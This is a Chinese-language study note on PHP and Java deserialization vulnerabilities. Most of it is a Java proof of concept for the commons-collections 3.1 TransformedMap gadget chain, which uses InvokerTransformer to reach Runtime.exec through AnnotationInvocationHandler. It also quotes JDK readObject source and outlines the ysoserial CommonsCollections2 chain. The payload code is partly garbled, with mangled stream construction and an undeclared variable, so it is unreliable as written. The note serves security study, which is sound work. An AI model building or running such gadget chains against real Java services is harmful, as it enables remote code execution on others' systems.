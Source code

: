 # PHP 反序列化

PHP中序列化一个对象需要调用serialize()方法，之后会调用__sleep()方法执行自定义操作后，序列化数据生成，而JAVA的wrireObject()是可以重写的。反序列化后会调用__wakeup()方法。

PHP中的魔术方法__sleep(),__wakeup()是在序列化操作的前后执行而不是序列化时。

PHP反序列化漏洞的利用点是在序列化时将一些属性修改成我们想要的数据，从而在之后的执行流程中进行危险操作，而不是在__wakeup()中，因为根本不可控，除非__wakeup()本身写的很危险

# Java 反序列化

Java的反序列化和PHP的反序列化其实有些类似，都是将一个对象中的属性按照某种特定的格式生成一段数据流。
在反序列化的时候再按照这个格式将属性取出，再赋值给新的对象。


## commons-collections-3.1

### TransformedMap调用链

```java
    public static void main(String[] args) {
        String cmd  = "open /System/Applications/Calculator.app";
        String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(null);

        //创建AnnotationInvocationHandler对象 对map.class的动态代理对象
        Map map = new HashMap();

        map.put("value", "value");

        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

//        for (Object obj : transformedMap.entrySet()) {
//            Map.Entry entry = (Map.Entry) obj;
//
//            // setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
//            entry.setValue("test");
//        }

        Class ann_clazz = Class.forName(ANN_INV_HANDLER_CLASS);

        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = ann_clazz.getDeclaredConstructor(Class.class, Map.class);

        // 设置构造方法的访问权限
        constructor.setAccessible(true);

        //AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        // 创建用于存储payload的二进制输出流对象 创建Java对象序列化输出流对象
        ObjectOutputStream out = new ObjectOutputStream(new ByteArrayOutputStream());
        out.writeObject(instance);
        out.flush();
        out.close();

        byte[] bytes = baos.toByteArray();

        // 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
        ObjectInputStream in = new ObjectInputStream(banew ByteArrayInputStream(bytes)is);

        in.readObject();
        in.close();

    }
}
```
> AnnotationInvocationHandler类是私有类，不能直接new出来。


调用TransformedMap的setValue/put/putAll中的任意方法都会调用InvokerTransformer类的transform方法，就会触发命令执行

- 可以触发此调用链的场景

 - 只要在Java的API中的任何一个类实现了java.io.Serializable接口
 - 可以传入构建的TransformedMap对象
 - 要有调用TransformedMap中的setValue/put/putAll中的任意方法一个方法的类
 - 在Java反序列化的时候触发InvokerTransformer类的transform方法实现RCE

 > 在jdk1.7u80中调用链可以顺利执行，jdk1.8中AnnotationInvocationHandler类的readobject()中没有调用entrty.setValue()方法。无法执行，代码如下。


- 1.7
```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    //这里调用的setValue()->checkSetValue()->valueTransformer.transform(value)
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }

```

- 1.8

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        GetField var2 = var1.readFields();
        Class var3 = (Class)var2.get("type", (Object)null);
        Map var4 = (Map)var2.get("memberValues", (Object)null);
        AnnotationType var5 = null;

        try {
            var5 = AnnotationType.getInstance(var3);
        } catch (IllegalArgumentException var13) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var6 = var5.memberTypes();
        LinkedHashMap var7 = new LinkedHashMap();

        String var10;
        Object var11;
        for(Iterator var8 = var4.entrySet().iterator(); var8.hasNext(); var7.put(var10, var11)) {
            Entry var9 = (Entry)var8.next();
            var10 = (String)var9.getKey();
            var11 = null;
            Class var12 = (Class)var6.get(var10);
            if (var12 != null) {
                var11 = var9.getValue();
                if (!var12.isInstance(var11) && !(var11 instanceof ExceptionProxy)) {
                    //zheli 
                    var11 = (new AnnotationTypeMismatchExceptionProxy(var11.getClass() + "[" + var11 + "]")).setMember((Method)var5.members().get(var10));
                }
            }
        }

        AnnotationInvocationHandler.UnsafeAccessor.setType(this, var3);
        AnnotationInvocationHandler.UnsafeAccessor.setMemberValues(this, var7);
    }
```

### LazyMap调用链 ysoserial-CommonsCollections1 

后半段执行命令的利用链和上面的一致，不同的是触发方式 

## commons-collections4:4.0

ysoserial CommonsCollections2调用链

```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()
 */
```